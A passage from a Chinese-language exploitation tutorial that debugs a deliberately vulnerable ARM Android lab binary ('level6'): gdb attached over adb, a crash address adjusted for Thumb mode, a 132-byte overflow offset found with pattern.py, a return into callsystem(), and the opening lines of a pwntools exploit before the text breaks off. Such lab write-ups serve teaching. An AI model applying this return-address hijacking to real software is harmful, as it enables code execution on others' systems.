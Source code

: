     
    
    #!bash
    [pc]$ python test.py 
    [+] Opening connection to 127.0.0.1 on port 10001: Done
    …
    

然后在adb shell中用ps获取level6的pid，然后再挂载level6，然后用c继续：

    
    
    #!bash
    [adb]# ./gdb --pid=4895
    
    GNU gdb 6.7
    Copyright (C) 2007 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    ……
    Loaded symbols for /system/lib/libm.so
    0xb6eff268 in read () from /system/lib/libc.so
    (gdb) c
    Continuing.
    

然后我们再在电脑上输入回车，让脚本发送数据。然后我们就能够在gdb里看到崩溃的pc的值了：

    
    
    #!bash
    Program received signal SIGSEGV, Segmentation fault.
    0x41346540 in ?? ()
    (gdb) 
    

因为我们编译的level6默认是thumb模式，所以我们要在这个崩溃的地址上加个1：`0x41346540+1 =0x41346541`。然后用pattern.py计算一下溢出点的位置：

    
    
    #!bash
    $ python pattern.py offset 0x41346541
    hex pattern decoded as: Ae4A
    132
    

OK，我们知道了溢出点的位置，接下来我们找一下返回的地址。其实利用的代码在程序中已经有了。我们只要将pc指向callsystem()这个函数地址即可。我们在ida中可以看到地址为`0x00008554`：

![p1](http://static.wooyun.org//drops/20151216/2015121615312451451170.png)

因为`callsystem()`被编译成了thumb指令，所以我们需要将地址+1，让pc知道这里的代码为thumb指令，最终exp如下：

    
    
    #!python
    #!/usr/bin/env python
    from pwn import *
    
    #p = process('./level6')
    p = remote('127.0.0.1',10001)
    
    p.recvuntil('\n')
    